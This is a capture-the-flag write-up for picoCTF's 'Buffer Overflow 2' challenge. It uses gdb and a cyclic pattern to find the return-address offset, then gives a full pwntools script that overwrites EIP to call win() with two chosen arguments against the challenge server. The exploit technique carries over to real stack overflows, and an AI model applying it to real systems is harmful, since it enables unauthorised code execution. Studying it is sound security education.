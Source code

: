 # Buffer Overflow 2
## Description
This time you'll need to control the arguments to the function you return to! Can you get the flag from this program?
You can view source here. And connect with it using `nc saturn.picoctf.net 58139`

## Solution
We have to find the offset of the return address and then overwrite it with the address of the win() and then pass the two arguments to the function in order to get the flag.

So to get the address of the win() function we can use the following command:
```bash
# First we have to make the program executable
chmod +x vuln

# Then we can use the following command
gdb ./vuln
```

To get a look of all the functions in the program we can use the following command:
```bash
(gdb) info functions
All defined functions:

0x08049000  _init
0x080490e0  printf@plt
0x080490f0  gets@plt
0x08049100  fgets@plt
0x08049110  getegid@plt
0x08049120  puts@plt
0x08049130  exit@plt
0x08049140  __libc_start_main@plt
0x08049150  setvbuf@plt
0x08049160  fopen@plt
0x08049170  setresgid@plt
0x08049180  _start
0x080491c0  _dl_relocate_static_pie
0x080491d0  __x86.get_pc_thunk.bx
0x080491e0  deregister_tm_clones
0x08049220  register_tm_clones
0x08049260  __do_global_dtors_aux
0x08049290  frame_dummy
0x08049296  win
0x08049338  vuln
0x08049372  main
0x080493f0  __libc_csu_init
0x08049460  __libc_csu_fini
0x08049465  __x86.get_pc_thunk.bp
0x0804946c  _fini
```

As we can see, the address of the win() function is `0x08049296`.

Now we have to find the offset of the EIP register. To do that we can use the following command to create a cyclic pattern:
```bash
padding = cyclic(200)
print(padding)

# Output:
# aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaab
```

This pattern is then saved in a file called `pattern.txt`.

Back inside the gdb we can use the following command to send the cyclic pattern to the program:
```bash
(gdb) r < pattern.txt
```
![gdb](./gdb.png)

As we can see, the EIP register is overwritten with `0x62616164` which is the address of the `daab` in the cyclic pattern.

To exploit this vulnerability we can use the following script to create the payload:
```python
from pwn import *

# Inserting the EIP value
pattern = cyclic(cyclic_find('daab'))

# Filling the EIP with a function call address for Win(), containing the flag.
eip = p32(0x08049296)

# Creating padding
padding = b"CCCC"  # Padding of 4 bytes

# Adding the Arguments 
a = p32(0xCAFEF00D)  # 0xCAFEF00D
a += p32(0xF00DF00D)  # 0xF00DF00D

# Creating the payload
payload = pattern + eip + padding + a
print(payload)

r = remote('saturn.picoctf.net', 60583)
r.recvuntil(b"Please enter your string: \n")
r.sendline(payload)
r.interactive()
```

Padding of 4 bytes is added to make sure that the arguments are passed to the function, and not overwritten by the return address. The arguments has to be in little endian format, so we use the `p32()` function to convert them to little endian.

And just like that we get the flag!
